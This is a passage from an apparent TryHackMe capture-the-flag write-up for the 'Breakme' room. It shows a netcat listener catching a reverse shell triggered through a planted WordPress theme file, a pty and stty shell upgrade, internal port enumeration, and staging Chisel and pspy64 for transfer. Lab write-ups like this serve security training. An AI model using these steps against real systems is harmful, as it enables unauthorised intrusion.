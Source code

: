We then need to start a listener on our attack host and access the page that contains our payload to trigger its execution.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Breakme/Scans/Web]
└─$ curl http://10.10.64.230/wordpress/wp-content/themes/twentytwentythree/patterns/hidden-404.php
```

When we return to our listener we will notice a reverse connection from the target. We can upgrade this shell to a fully interactive shell to facilitate our enumeration.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.23.19] from (UNKNOWN) [10.10.64.230] 38510
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")' 
<ress/wp-content/themes/twentytwentythree/patterns$ ^Z
zsh: suspended  nc -lvnp 1234


┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
www-data@Breakme:/var/www/html/wordpress/wp-content/themes/twentytwentythree/patterns$ 
```
Now, we have a foothold on the target and we can use this to enumerate the target further. If we look at the ports listening internally on the target, we will notice an uncommon port listener to the internal IP 127.0.0.1.
```bash
www-data@Breakme:/tmp$ netstat -nlt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:9999          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN  
```

To enumerate this port, we can transfer Chisel and pspy64 to the target. To do this, we first need to start a Python server in the directory where these binaries are located.
```bash
┌──(pentester㉿kali)-[/opt]
└─$ ls -l
<SNIP>
-rwxr-xr-x 8 root root    4096 Sep 24 16:49 pspy64
-rw-r--r-- 1 root root 8654848 Aug 20  2023 chisel

┌──(pentester㉿kali)-[/opt]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
